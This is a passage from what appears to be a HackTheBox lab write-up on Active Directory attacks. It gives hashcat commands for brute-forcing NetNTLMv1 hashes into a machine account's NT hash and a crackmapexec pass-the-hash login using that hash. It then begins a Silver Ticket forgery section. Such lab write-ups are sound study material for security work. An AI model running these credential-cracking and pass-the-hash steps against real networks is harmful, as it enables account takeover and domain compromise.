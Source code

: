 ```
525DB6A4FD8EDA21:1122334455667788

echo "F69E06E7A3CF92C6:1122334455667788">>14000.hash
echo "525DB6A4FD8EDA21:1122334455667788">>14000.hash

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset 14000.hash ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
NTHASH:F69E06E7A3CF92C6525DB6A4FD8EDA2132BF0CDA26B96BD8

root@kali:$ echo 'F69E06E7A3CF92C6:1122334455667788' >> 14000.hash
root@kali:$ echo '525DB6A4FD8EDA21:1122334455667788' >> 14000.hash

root@kali:$ ./hashcat64.exe -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes/14000.hash '?1?1?1?1?1?1?1?1'
```

An 8x 1080 rig can brute force it in about 6 days, so consider Rainbow Tables... We're cracking a machine account (that's why worldlists are useless -- we're hunting for machine's NTHash, not password).

5\. Anyways, got the hash: `fc64914083cfe79b3a01cd44550044fe`. We can validate it with CME and move on to the next phase:

```
root@kali:$ proxychains4 -q crackmapexec smb 192.168.3.201 -u 'DEV$' -H 'fc64914083cfe79b3a01cd44550044fe' -d 'HTB'
SMB         192.168.3.201   445    DEV              [*] Windows Server 2019 Standard 17763 x64 (name:DEV) (domain:HTB) (signing:False) (SMBv1:False)
SMB         192.168.3.201   445    DEV              [+] HTB\DEV$ fc64914083cfe79b3a01cd44550044fe
```

### Refs

* [NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
* [Domain Compromise via DC Print Server and Kerberos Delegation - Red Teaming Experiments](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

## Using Silver Ticket with services.py

**Definitions:**

* Silver Ticket == Forged TGS Ticket

### Prepare DNS (dnsmasq)

To stay organized and not to pollute `/etc/hosts` contents I'll run local DNS server (dnsmasq) with all the needed hostnames for Kerberos auth procedure:

```
root@kali:$ sudo dnsmasq --no-daemon --log-queries -C /root/htb/endgames/hades/resolver/htb-local.conf
```
